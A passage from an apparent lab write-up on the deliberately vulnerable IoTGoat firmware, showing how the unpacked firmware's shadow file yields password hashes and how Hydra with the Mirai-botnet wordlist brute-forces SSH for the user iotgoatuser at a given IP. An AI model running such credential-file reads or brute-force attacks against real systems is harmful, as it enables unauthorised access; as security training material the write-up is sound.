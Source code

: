 ![Info leaks](<../../.gitbook/assets/image (21).png>)

```bash
# in the squashfs folder of the unpacked firmware
cat etc/shadow

# output :
root:$1$Jl7H1VOG$Wgw2F/C.nLNTC.4pwDa4H1:18145:0:99999:7:::
daemon:*:0:0:99999:7:::
ftp:*:0:0:99999:7:::
network:*:0:0:99999:7:::
nobody:*:0:0:99999:7:::
dnsmasq:x:0:0:99999:7:::
dnsmasq:x:0:0:99999:7:::
iotgoatuser:$1$79bz0K8z$Ii6Q/if83F1QodGmkb4Ah.:18145:0:99999:7:::
```

We have 2 password hashes: root and a user **iotgoatuser**.

#### **Bruteforce SSH**

With the user found, we try a **bruteforce** attack on the ssh service (port 22).\
We use the **mirai-botnet** wordlist of **SecLists**

```bash
# We want to filter only on the passwords because the list is of form user:password
awk '{print $2}' /usr/share/SecLists/Passwords/Malware/mirai-botnet.txt > /usr/share/SecLists/Passwords/Malware/mirai_pass.txt

# Bruteforce with Hydra
hydra -f -t 4 -l iotgoatuser -P /usr/share/SecLists/Passwords/Common-Credentials/mirai_pass.txt ssh://137.74.253.251
```
